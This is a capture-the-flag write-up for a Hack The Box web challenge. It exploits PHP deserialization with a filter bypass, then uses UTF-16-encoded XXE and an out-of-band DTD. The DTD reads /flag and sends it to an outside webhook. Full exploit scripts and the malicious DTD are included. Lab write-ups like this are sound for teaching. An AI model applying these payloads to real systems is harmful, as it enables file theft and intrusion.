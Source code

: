 # WAFfle-y Order
Category: Web
Level: Medium

## Code Analysis
Checking out the `index.php` we find the `PHPSESSID` cookie is serialized:
```php index.php
if  ( empty ( $_COOKIE [ 'PHPSESSID' ])) 
{ 
    $user  =  new  UserModel; 
    $user ->username = substr(uniqid( 'guest_' ),  0 ,  10 ); 
    setcookie( 
        'PHPSESSID' , 
        base64_encode(serialize( $user )),  
        time()+ 60 * 60 * 24 ,  
        '/' 
    ); 
} 
```

In `OrderController.php` we find the deserialization:
```php OrderController.php
$body = file_get_contents( 'php://input' );   
$cookie = base64_decode( $_COOKIE [ 'PHPSESSID' ]);   
safe_object( $cookie );   
$user = unserialize( $cookie );
```

Before the deserialization the cookie is sanitized by `safe_object` method. It checks for unsafe functions starting with `__`:
```php OrderController.php
function  safe_object ( $serialized_data ) 
{ 
    $matches  = []; 
    $num_matches  = preg_match_all( '/(^|;)O:\d+:"([^"]+)"/' ,  $serialized_data ,  $matches ); 

    for  ( $i  =  0 ;  $i  <  $num_matches ;  $i ++) { 
        $methods  = get_class_methods( $matches [ 2 ][ $i ]); 
        foreach  ( $methods  as  $method ) { 
            if  (preg_match( '/^__.*$/' ,  $method ) !=  0 ) { 
                die ( "Unsafe method: ${method}" ); 
            } 
        } 
    } 
} 
```

Having found the deserialization vulnerability, the next step is to find classes that can be exploited by the deserialization vulnerability.

There is a `XmlParserModel` class and the `__wakeup` method, which is called when the object is deserialized:
```php XmlParserModel.php
class  XmlParserModel 
{ 
    private  string  $data ; 
    private  array  $env ; 

    public  function  __construct ( $data ) 
    { 
        $this ->data =  $data ; 
    } 

    public  function  __wakeup ( ) 
    { 
        if  (preg_match_all( "/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im" ,  $this ->data)) 
        { 
            die ( 'Unsafe XML' ); 
        } 
        $env  = @simplexml_load_string( $this ->data,  'SimpleXMLElement' , LIBXML_NOENT); 

        if  (! $env )  
        { 
            die ( 'Malformed XML' ); 
        } 

        foreach  ( $env  as  $key  =>  $value ) 
        { 
            $_ENV [ $key ] = ( string ) $value ; 
        } 
    } 
} 
```

In sum, exist a `__wakeup` method in `XmlParserModel` and object variable `$data` with `simplexml_load_string` is used as `XML` parsing. When deserializing, the vulnerability can give `$data` variables arbitrary values that can be created by external entities `XXE`.

However, when `$data` is including external entities, it will be replaced by the regular expression `/<!(?:DOCTYPE|ENTITY)(?:\s|%|&#[0-9]+;|&#x[0-9a-fA-F]+;)+[^\s]+\s+(?:SYSTEM|PUBLIC)\s+[\'\"]/im` matches, resulting in the call `die` and return `Unsafe XML`.
For this, you can `UTF-8` encoded `XML` document converted to `UTF-16` coding

## METHODOLGY
When making the call, the server checks if the cookie is “safe” with `safe_object()`. The method finds all matches of serialized objects and gets their respective class methods. If any of the class method contains `__` at the beginning (for magic methods exploits), the program dies.

Decoded cookie, the ErrorException contains magic method __construct:
O:14:"ErrorException":1:{s:8:"username";s:10:"guest_614c";}

To bypass this restriction, I studied this writeup:
https://github.com/MegadodoPublications/exploits/blob/master/composr.md#the-moderately-cool-way-that-works

Objects that implement the Serializable interface contain two methods serialize and unserialize. 
When serializing such an object a string of the following format will be returned: 
```
C:<number of characters in the class name>:"<class name>":<length of the output of the serialize method>:{<output of the serialize method>}.
```

Creating a serialized string in this format for an object of a class that doesn’t implement Serializable will work but the deserialized object will not have any class members set. It is thus not very useful for our purposes but it does lead the way to a final working exploit.
```
C:19:“SplDoublyLinkedList”:33:{i:0;:O:10:“HelloWorld”:0:{}:i:42;}
```

Notice the `:` before `O`. This prevents the regex from matching.
Part of the payload is going to look like this. `$pay` is our serialized payload object.

### XML WAF bypass
We will serialize XmlParserModel class. It has `__wakeup` magic method, and calls `simplexml_load_string()` which we will exploit. 
With this method, we can do XXE, but have to first bypass the regex check.
The LIBXML_NOENT option allows us to use XML entities.

To bypass the regex, I use UTF-16 encoding on the XML payload. 
The `simplexml_load_string()` does whats its told to do, and the regex just don’t know what’s going on and lets the payload through.

### DTD OOB exfiltration
Free from restraints, we can finally do the XXE with OOB DTD (inspiration). The challenge is internet-enabled. I’m going to fetch the DTD from ngrok which I tunnel to my machine where I host the DTD file. The DTD reads the flag file and make a call to my internet webhook, where a GET parameter contains the flag.

## Exploit
Lets create 3 files.
In `exploit.py` we generate php serialized payload and encode using base64. URL encoding is done inplicitly in requests. Insert payload into cookie and make the API call.
```python exploit.py
#!/usr/bin/python3

import requests
import subprocess
import base64

result = subprocess.run(['php', 'php_pay.php'], stdout=subprocess.PIPE)
rs = result.stdout 
pay = base64.b64encode(rs)
pay = pay.decode()

c = {'PHPSESSID': pay}
d = {"table_num":"1","food":"WAFfles"}

r = requests.post('http://206.189.124.249:32543/api/order', json=d, cookies=c)
print(r.content.decode())
```

In `php_pay.php` we create and xml paylod that will be interpreted by simplexml_load_string(). We tell it to fetch our malicious DTD and execute it. Then we convert the xml into UTF-16BE, serialize it and paste it into our predefined serialized structure.
```php php_pay.php
<?php

class XmlParserModel {
    public string $data;

    public function __construct($data)
    {
        $this->data = $data;
    }
}

/* UTF-16 encoding
 * ngrok to malicious.dtd
 */
$xml = '<?xml version="1.0" encoding="UTF-16"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1486-88-212-37-72.ngrok.io/malicious.dtd"> %xxe;]><env><debug>1</debug></env>';

// perform utf-16 conversion (big endian)
$xml = iconv('UTF-8', 'UTF-16BE', $xml);

$pay = serialize(new XmlParserModel($xml));

// 11 is number of chars in {} block apart from variable $pay
$l = 11 + strlen($pay);
echo 'C:19:"SplDoublyLinkedList":' . $l . ':{i:0;:' . $pay . ':i:42;}';
```

In `malicious.dtd` we tell the system to get contents of /flag and encode it using base64. We have to use base64 encoding because the file contains a newline at the end, and the xml entity doesn’t like that. We then instruct the system to make and http call to our webhook which contains the flag as a GET parameter.
```dtd malicious.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://webhook.site/d1a3d99e-30da-4cb5-8e98-a4922d66f996/?x=%file;'>">
%eval;
%exfiltrate;
```

## FLAG
Now we just need to run `exploit.py` and get the flag in the webhook.
HTB{wh0_l3t_th3_enc0d1ngs_0ut???w00f..wo0f..w0of..WAFfl3s!!}